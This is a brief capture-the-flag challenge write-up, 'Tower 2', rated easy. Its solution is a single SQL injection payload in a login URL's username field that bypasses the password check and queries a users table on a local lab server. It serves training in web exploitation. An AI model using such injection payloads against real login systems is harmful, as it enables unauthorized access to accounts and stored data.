 # Tower 2

## Author
l4w
## Level
Easy
## Description
```
http://x.x.x.x:5000/?source=1
```
## Hints

## Solution
```
view-source:http://localhost:5000/login?username=admin%27!=1,password`2`,1`debug`from`users`;--a&password=guest
```

## Note
###Installation
chạy setup.sh